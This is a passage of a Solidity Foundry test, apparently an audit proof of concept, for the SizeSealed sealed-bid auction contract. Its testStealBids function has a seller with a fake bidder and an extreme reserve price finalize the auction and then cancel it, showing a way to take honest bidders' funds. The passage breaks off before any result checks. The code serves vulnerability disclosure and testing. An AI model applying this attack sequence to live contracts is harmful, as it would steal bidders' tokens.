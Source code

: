 ```solidity
    uint32 unlockTime;
    uint32 unlockEnd;
    uint128 cliffPercent;

    uint128 baseToSell;

    uint256 reserveQuotePerBase = 1e18 * uint256(type(uint128).max) / 1e18;
    uint128 minimumBidQuote = 1;

    function setUp() public {
        // Create quote and bid tokens
        quoteToken = new MockERC20("Dai Stablecoin", "DAI", 18);

        baseToken = new MockERC20("Wrapped Ether", "WETH", 18);

        // Init auction contract
        auction = new SizeSealed();

        // Create seller
        seller = new MockSeller(address(auction), quoteToken, baseToken);

        // Create bidders
        bidder = new MockBuyer(address(auction), quoteToken, baseToken);
        bidder1 = new MockBuyer(address(auction), quoteToken, baseToken);
        seller_as_fake_bidder = new MockBuyer(address(auction), quoteToken, baseToken);

        startTime = uint32(block.timestamp);
        endTime = uint32(block.timestamp) + 60;
        unlockTime = uint32(block.timestamp) + 100;
        unlockEnd = uint32(block.timestamp) + 1000;
        cliffPercent = 0;

        baseToSell = 10000 ether;
        vm.label(address(bidder), "Bidder 1");
        
        vm.label(address(quoteToken), "Quote Token1");
        vm.label(address(baseToken), "Base Token");
    }

    function testStealBids() public {
        (uint256 beforeFinalizeQuote, uint256 beforeFinalizeBase) = seller.balances();
        uint256 aid = seller.createAuction(
            baseToSell, reserveQuotePerBase, minimumBidQuote, startTime, endTime, unlockTime, unlockEnd, cliffPercent
        );
        bidder.setAuctionId(aid);
        bidder1.setAuctionId(aid);
        seller_as_fake_bidder.setAuctionId(aid);

        bidder.bidOnAuctionWithSalt(1 ether, 1500 ether, "hello"); // want to buy 1 WETH for 1500 DAI
        bidder1.bidOnAuctionWithSalt(1000 ether, 1500000 ether, "hello"); // want to buy 1000 WETH for 1500000 DAI
        seller_as_fake_bidder.bidOnAuctionWithSalt(1 ether, 1 ether, "hello");

        vm.warp(endTime + 1);
        uint256[] memory bidIndices = new uint[](3);
        bidIndices[0] = 0;
        bidIndices[1] = 1;
        bidIndices[2] = 2;
        seller.finalize(bidIndices, type(uint128).max ,type(uint128).max);
        seller.cancelAuction(); 
        (uint256 afterFinalizeQuote, uint256 afterFinalizeBase) = seller.balances();
```